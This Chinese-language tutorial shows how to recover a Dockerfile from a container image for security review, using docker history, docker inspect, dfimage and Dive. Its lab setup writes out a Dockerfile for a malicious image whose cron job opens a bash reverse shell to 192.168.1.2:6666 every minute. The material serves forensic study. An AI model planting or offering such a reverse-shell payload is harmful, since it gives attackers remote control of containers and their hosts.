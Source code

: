 ## 概述

当涉及到容器镜像的安全时，需要追溯镜像的来源和解析Dockerfile文件


## 环境准备

利用Dockfile构建一个反弹Shell的恶意镜像

```bash
FROM ubuntu:20.04

RUN sed -i 's/archive.ubuntu.com/mirrors.cloud.tencent.com/g' /etc/apt/sources.list

RUN ln -sf /usr/share/zoneinfo/Asia/Shanghai /etc/localtime && echo 'Asia/Shanghai' > /etc/timezone

RUN  apt-get update &&\
     apt-get install -y cron &&\
     (echo '* * * * * bash -c "bash -i >& /dev/tcp/192.168.1.2/6666 0>&1"'; crontab -l )| crontab
     
ENTRYPOINT ["cron","-f","&&"]

CMD ["/bin/bash"]
```

## 镜像解析Dockerfile

#### 镜像文件解析

解析镜像的元数据信息

```bash
docker save -o test.tar test:v1.0
tar -xvf test.tar
```

#### docker命令参数

docker history 命令用来查看指定镜像一部分的创建历史

加上`--no-trunc`参数才能看到全部的创建历史

```bash
docker history test:v1.0 
docker history test:v1.0  --no-trunc
```

docker inspect 命令用来查看Docker镜像的详细信息

通过`--format`参数可自行定义输出信息，获取镜像的配置信息

```bash
## 查看镜像的配置信息
docker inspect --format='{{json .Config}}' test:v1.0
```

#### dfimage

dfimage，从镜像中提取 Dockerfile

```bash
alias dfimage="docker run -v /var/run/docker.sock:/var/run/docker.sock --rm alpine/dfimage"

dfimage -sV=1.36  test:v1.0
```

#### Dive

Dive，分析和浏览 Docker 容器镜像内部

项目地址：https://github.com/wagoodman/dive

```bash
alias dive="docker run -ti --rm  -v /var/run/docker.sock:/var/run/docker.sock quay.io/wagoodman/dive"

dive test:v1.0
```

